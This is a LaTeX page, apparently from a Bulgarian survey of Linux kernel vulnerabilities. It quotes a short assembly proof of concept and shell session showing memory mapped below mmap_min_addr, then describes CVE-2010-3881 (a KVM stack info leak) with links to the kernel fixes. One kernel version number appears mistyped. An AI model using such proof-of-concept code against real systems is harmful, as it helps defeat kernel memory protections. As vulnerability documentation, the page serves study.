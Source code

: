 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\begin{verbatim}
$ uname -m
x86_64
$ cat /proc/sys/vm/mmap_min_addr
65536
$ cat install_special_mapping.s
section .bss
    resb BSS_SIZE
section .text
    global _start
    _start:
        mov     eax, __NR_pause
        int     0x80
$ nasm -D__NR_pause=29 -DBSS_SIZE=0xfffed000 -f elf
       -o install_special_mapping.o install_special_mapping.s
$ ld -m elf_i386 -Ttext=0x10000 -Tbss=0x11000 
       -o install_special_mapping install_special_mapping.o
$ ./install_special_mapping &
[1] 14303
$ cat /proc/14303/maps
0000f000-00010000 r-xp 00000000 00:00 0       [vdso]
00010000-00011000 r-xp 00001000 00:19 2453665 /home/taviso/install_special_mapping
00011000-ffffe000 rwxp 00000000 00:00 0       [stack]

\end{verbatim}
\paragraph{}
Проблемът е оправен на 2010-12-15. \footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=462e635e5b73ba9a4c03913b77138cd57ce4b050}}


\section{CVE-2010-3881 CVSS Score 1.9}
\subsection{Описание}
\paragraph{}
arch/x86/kvm/x86.c в Linux ядрата преди 2.3.36.2 не инициализира някои членове на структурите \textit{kvm\_vcpu\_events}, \textit{kvm\_debugregs}, \textit{kvm\_pit\_state2} и \textit{kvm\_clock\_data}, което позволява обикновен потребител евентуално да получи важна информация от стека на паметта на ядрото чрез операции за четене върху /dev/kvm устройството\footnote{KVM - Kernel-based Virtual Machine - пълно решение за виртуализация на Linux за x86 хардуер. Съдържа разширение - Intel VT или AMD-V. Състои се от модул към ядрото \textit{kvm.ko} и специфични за процесора разширения \textit{kv-intel.ko} и \textit{kvm-amd.ko}}.
\paragraph{}
Проблемът е оправен на 2010-11-01\footnote{\url{http://git.kernel.org/?p=virt/kvm/kvm.git;a=commit;h=831d9d02f9522e739825a51a11e3bc5aa531a905}}.
\end{document}
